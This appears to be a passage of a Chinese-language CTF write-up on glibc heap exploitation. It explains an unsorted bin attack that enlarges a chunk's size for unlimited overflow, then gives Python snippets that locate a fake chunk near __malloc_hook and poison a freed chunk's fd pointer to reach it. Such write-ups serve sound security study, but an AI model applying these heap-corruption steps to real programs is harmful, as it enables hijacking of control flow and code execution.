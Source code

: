 
![upload successful](/images/pasted-83.png)

根据 顺序：

```txt
0 | 1
2 | 3
.....
```

2号块的size变成了一个超大的值，即edit 2号块的时候，可以无限溢出。

这就是unsorted bin attack。



malloc_hook是在调用malloc的时候调用的一个函数。

```python
malloc_hook = libc_base + libc.sym["__malloc_hook"]
fake_chunk = malloc_hook - 0x23
```

前人在fake_chunk的位置找到了一个0x7f的size头，实际上size是0x70，因为size的后4位是不用的，我们就可以往fake_chunk的位置写入内容。


![upload successful](/images/pasted-84.png)



脚本如下，往3号块的fd位置写入fake_chunk的地址

```python
add(3,0x68)
free(3)
edit(3,0x8,p64(fake_chunk))
```

